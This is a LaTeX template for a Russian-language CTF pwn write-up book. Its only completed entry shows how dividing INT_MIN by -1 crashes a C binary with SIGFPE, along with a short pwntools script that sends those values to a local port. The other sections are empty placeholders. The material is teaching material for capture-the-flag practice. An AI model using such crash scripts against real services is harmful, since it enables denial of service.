%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Daily Laboratory Book
% LaTeX Template
% Version 1.0 (4/4/12)
%
% This template has been downloaded from:
% http://www.LaTeXTemplates.com
%
% Original author:
% Frank Kuster (http://www.ctan.org/tex-archive/macros/latex/contrib/labbook/)
%
% Important note:
% This template requires the labbook.cls file to be in the same directory as the
% .tex file. The labbook.cls file provides the necessary structure to create the
% lab book.
%
% The \lipsum[#] commands throughout this template generate dummy text
% to fill the template out. These commands should all be removed when 
% writing lab book content.
%
% HOW TO USE THIS TEMPLATE 
% Each day in the lab consists of three main things:
%
% 1. LABDAY: The first thing to put is the \labday{} command with a date in 
% curly brackets, this will make a new page and put the date in big letters 
% at the top.
%
% 2. EXPERIMENT: Next you need to specify what experiment(s) you are 
% working on with an \experiment{} command with the experiment shorthand 
% in the curly brackets. The experiment shorthand is defined in the 
% 'DEFINITION OF EXPERIMENTS' section below, this means you can 
% say \experiment{pcr} and the actual text written to the PDF will be what 
% you set the 'pcr' experiment to be. If the experiment is a one off, you can 
% just write it in the bracket without creating a shorthand. Note: if you don't 
% want to have an experiment, just leave this out and it won't be printed.
%
% 3. CONTENT: Following the experiment is the content, i.e. what progress 
% you made on the experiment that day.
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%----------------------------------------------------------------------------------------
%	PACKAGES AND OTHER DOCUMENT CONFIGURATIONS
%----------------------------------------------------------------------------------------

\documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} % 'openany' here removes the gap page between days, erase it to restore this gap; 'oneside' can also be added to remove the shift that odd pages have to the right for easier reading

\usepackage[ 
  backref=page,
  pdfpagelabels=true,
  plainpages=false,
  colorlinks=true,
  bookmarks=true,
  pdfview=FitB]{hyperref} % Required for the hyperlinks within the PDF
  
\usepackage{booktabs} % Required for the top and bottom rules in the table
\usepackage{float} % Required for specifying the exact location of a figure or table
\usepackage{graphicx} % Required for including images2
\usepackage{listings} % Used for programs' listings
\usepackage{tcolorbox} % For textboxes

\usepackage[english,russian]{babel}
\usepackage[utf8]{inputenc}
\usepackage[T2A]{fontenc}

\newcommand{\HRule}{\rule{\linewidth}{0.5mm}} % Command to make the lines in the title page
\setlength\parindent{0pt} % Removes all indentation from paragraphs

%----------------------------------------------------------------------------------------
%	DEFINITION OF EXPERIMENTS
%----------------------------------------------------------------------------------------

\newexperiment{easy1}{Crash me}
\newexperiment{easy2}{<Название>}
\newexperiment{medium1}{<Название>}
\newexperiment{medium2}{<Название>}
\newexperiment{hard1}{<Название>}
\newexperiment{hard2}{<Название>}

%---------------------------------------------------------------------------------------

\begin{document}

%----------------------------------------------------------------------------------------
%	TITLE PAGE
%----------------------------------------------------------------------------------------

\frontmatter % Use Roman numerals for page numbers
\title{
\begin{center}
\HRule \\[0.4cm]
{\Huge \bfseries CTF Code \\[0.5cm] \Large Writeups}\\[0.4cm] % Degree
\HRule \\[1.5cm]
\end{center}
}
\author{\Huge PWN \\ \\[2cm]} % Your name and email address
\maketitle

\tableofcontents

\mainmatter % Use Arabic numerals for page numbers

%----------------------------------------------------------------------------------------
%	LAB BOOK CONTENTS
%----------------------------------------------------------------------------------------

% Blank template to use for new days:

%\labday{Day, Date Month Year}

%\experiment{}

%Text

%-----------------------------------------

%\experiment{}

%Text

%----------------------------------------------------------------------------------------

\labday{Easy}

\experiment{easy1}

\textbf{Теги:} C, baby\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

Нам дается бинарь и порт для подключения. Толком анализировать его бессмысленно, по ассемблерному листингу понятно, что он принимает на вход два числа $a$ и $b$ типа \verb|int|, после чего проверяет, что $b$ не 0 и вычисляет их частное $\frac{a}{b}$. Собственно говоря, задача на Undefined Behavior (иногда можно встретить аббревиатуру UB) в С/С++. Если в этих языках поделить \verb|INT_MIN| на $-1$, то результат не влезет в тип int и произойдет SIGFPE (Fatal Arithmetic Error). Так как наша задача просто положить бинарь - это идеальный для нас вариант. Напишем сплойт (хотя в данной задаче проще руками, но для того, чтобы райтап выглядел более-менее равномерно будет приведен сплойт):
\begin{lstlisting}[language=Python, caption=Вызываем SIGFPE]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='amd64')

BINARY = './problem'
REMOTE = True
INT_MIN = 0x80000000


def exploit():
    if REMOTE:
        r = remote('127.0.0.1', 1337)
    else:
        r = process(BINARY)

    r.sendline(str(INT_MIN))
    r.sendline(str(-1))

    r.interactive()


if __name__ == '__main__':
    exploit()
\end{lstlisting}

И получаем флаг:
\begin{figure}[H]
\begin{center}

\includegraphics[width=0.7\linewidth]{files/baby-flag}
\end{center}
\caption{Вот бы всегда так}
\label{fig:baby-flag}
\end{figure}

%-----------------------------------------

\experiment{easy2}

\textbf{Теги:} <Теги>\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

%----------------------------------------------------------------------------------------

\labday{Medium}

\experiment{medium1}

\textbf{Теги:} <Теги>\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

%-----------------------------------------

\experiment{medium2}

\textbf{Теги:} <Теги>\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

%----------------------------------------------------------------------------------------

\labday{Hard}

\experiment{hard1}

\textbf{Теги:} <Теги>\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

%-----------------------------------------

\experiment{hard2}

\textbf{Теги:} <Теги>\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}

%----------------------------------------------------------------------------------------

\end{document}